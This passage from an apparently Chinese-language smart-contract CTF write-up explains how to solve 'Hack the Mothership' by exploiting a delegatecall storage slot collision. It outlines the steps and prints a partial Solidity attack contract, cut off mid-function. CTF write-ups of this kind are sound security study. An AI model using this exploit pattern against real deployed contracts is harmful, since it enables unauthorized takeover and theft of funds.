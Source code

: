 ```solidity
    function passTheBall() external;
    function shoot() external;
}
```

攻击时，我们应该找到sender：`"0xaa758e00eca745cab9232b207874999f55481951"`

记得把`gas`拉高一点。结果在测试网上似乎还有问题，再跑一遍又好了！



<hr />

# 9. Hack the Mothership!

问题出现在：

`        (bool success,) = module.delegatecall(msg.data); `

而`module`与`spaceship`又出现了`slot collision`。

我们想要`        hacked = true; `，就需要满足`leader == msg.sender`，所以需要

`promoteToLeader(address _leader)`，这里就需要满足：

```
The proposed leader is a spaceship captain
	=> assignNewCaptainToShip(address _newCaptain) mothership
		=> askForNewCaptain(address _newCaptain) spaceship
        	=> _isCrewMember(address)
    => isLeaderApproved(address) => OK
```

所以我们的思路：

1. 对于`spaceship`，将其`captain`置0，将自己加入`fleet`，`askForNewCaptain`
2. `addModule`修改`LeaderShip`指向合约，直接通过
3. `promoteToLeader`

因为都要通过，所以`spaceship`的`captain`都要修改。

攻击合约如下：

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

contract ShipHacker {

    IMotherShip public ship;
    FakeCaptain public captain;
    ISpaceShip public spaceship;

    constructor(address target) {
        ship = IMotherShip(target);
    }

    function fleet(uint256 x)  public{
        ship.fleet(x);
    }

    function attack() public{
        for (uint i = 0; i < 5; i++){
            spaceship = ISpaceShip(ship.fleet(i));
            captain = new FakeCaptain();
            spaceship.replaceCleaningCompany(address(0));
            spaceship.addAlternativeRefuelStationsCodes(uint256(uint160((address(captain)))));
            captain.attack(address(spaceship));
        }
        ship.promoteToLeader(address(captain));
```